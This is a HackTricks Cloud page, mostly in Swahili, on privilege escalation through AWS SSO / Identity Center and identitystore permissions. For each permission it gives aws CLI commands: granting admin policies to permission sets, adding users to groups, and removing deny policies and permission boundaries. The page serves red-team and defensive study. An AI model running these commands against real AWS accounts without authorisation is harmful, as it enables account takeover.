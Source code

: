 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Kwa maelezo zaidi kuhusu AWS Identity Center / AWS SSO angalia:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Kumbuka kwamba kwa **kawaida**, ni **watumiaji** pekee wenye ruhusa **kutoka** kwenye **Akaunti ya Usimamizi** watakuwa na uwezo wa kufikia na **kudhibiti Kituo cha Utambulisho wa IAM**.\
Watumiaji kutoka akaunti nyingine wanaweza tu kuruhusiwa ikiwa akaunti hiyo ni **Msimamizi wa Wawakilishi.**\
[Angalia hati kwa maelezo zaidi.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Password~~

Njia rahisi ya kupandisha mamlaka katika hali kama hii ingekuwa kuwa na ruhusa inayoruhusu kurekebisha nywila za watumiaji. Kwa bahati mbaya, inawezekana tu kutuma barua pepe kwa mtumiaji ili kurekebisha nywila yake, hivyo unahitaji ufikiaji wa barua pepe ya mtumiaji.

### `identitystore:CreateGroupMembership`

Kwa ruhusa hii inawezekana kuweka mtumiaji ndani ya kundi ili inherit ruhusa zote ambazo kundi lina. 

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kutoa ruhusa za ziada kwa Seti ya Ruhusa ambayo imetolewa kwa mtumiaji chini ya udhibiti wake

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kutoa ruhusa za ziada kwa Seti ya Ruhusa ambayo imetolewa kwa mtumiaji chini ya udhibiti wake

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kutoa ruhusa za ziada kwa Seti ya Ruhusa ambayo imetolewa kwa mtumiaji chini ya udhibiti wake.

{% hint style="warning" %}
Ili kutumia ruhusa hizi katika kesi hii unahitaji kujua **jina la sera inayosimamiwa na mteja ambayo iko ndani ya AKAUNTI ZOTE** ambazo zitakazoathirika.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Mshambuliaji mwenye ruhusa hii anaweza kumpa Seti ya Ruhusa mtumiaji chini ya udhibiti wake kwa akaunti.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Inarudisha STS muda mfupi wa akreditivu kwa jina la jukumu lililotolewa kwa mtumiaji.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Hata hivyo, unahitaji token ya ufikiaji ambayo sija hakika jinsi ya kupata (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa uhusiano kati ya sera inayosimamiwa na AWS kutoka kwa seti ya ruhusa iliyotajwa. Inawezekana kutoa ruhusa zaidi kupitia **kuondoa sera inayosimamiwa (sera ya kukataa)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa uhusiano kati ya sera inayosimamiwa na Mteja kutoka kwa seti ya ruhusa iliyotajwa. Inawezekana kutoa ruhusa zaidi kupitia **kuondoa sera inayosimamiwa (sera ya kukataa)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa ruhusa kutoka kwa sera ya ndani kutoka kwa seti ya ruhusa. Inawezekana kutoa **ruhusa zaidi kupitia kuondoa sera ya ndani (sera ya kukataa)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa Mipaka ya Ruhusa kutoka kwa seti ya ruhusa. Inawezekana kutoa **haki zaidi kwa kuondoa vizuizi kwenye Seti ya Ruhusa** vilivyotolewa kutoka kwa Mipaka ya Ruhusa.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
